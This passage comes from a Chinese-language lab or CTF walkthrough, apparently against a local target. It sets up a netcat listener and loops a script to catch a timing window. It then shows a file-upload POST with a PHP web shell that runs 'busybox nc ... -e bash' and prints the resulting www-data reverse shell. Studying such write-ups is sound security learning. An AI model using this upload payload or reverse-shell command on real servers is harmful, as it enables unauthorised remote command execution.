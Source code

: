    *(注：原脚本在检测到200后会暂停，这里修改为直接提示成功)*

3. **Netcat 监听器:**
   在Kali攻击机上开启 `nc` 监听指定端口（8888）。

   ```bash
   nc -lvnp 8888
   ```

4. **Burp Suite (或 `curl`):**
   用于发送包含反弹Shell Payload的文件上传POST请求。

### 3.3 执行攻击

1. 在一个终端运行 `nc -lvnp 8888`。

2. 在另一个终端运行 `bash a.sh` 开始循环访问。

3. 使用Burp Suite Repeater (或 `curl`) 发送构造好的文件上传POST请求到 `http://192.168.205.187/index.php`，内容包含上面的 `shell.php` Payload。

   ```http
   POST /index.php HTTP/1.1
   Host: 192.168.205.187
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate, br
   Referer: http://192.168.205.187/index.php
   Content-Type: multipart/form-data; boundary=---------------------------185067380923233129002267529642
   Content-Length: 287  # 注意根据实际payload调整
   Origin: http://192.168.205.187
   Connection: keep-alive
   Upgrade-Insecure-Requests: 1
   Priority: u=0, i
   
   -----------------------------185067380923233129002267529642
   Content-Disposition: form-data; name="file"; filename="shell.php"
   Content-Type: application/x-php
   
   <?php
   exec("busybox nc 192.168.205.128 8888 -e bash");
   ?>
   
   -----------------------------185067380923233129002267529642--
   ```

4. 观察 `a.sh` 的输出。当看到 `状态码 = 200` 时，检查 `nc` 监听器窗口，应该已经收到了反弹Shell。

   ```bash
   ┌──(kali㉿kali)-[~/test]
   └─$ nc -lvnp 8888
   listening on [any] 8888 ...
   connect to [192.168.205.128] from (UNKNOWN) [192.168.205.187] 58348
   id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   pwd
   /var/www/html/tmp
   ```
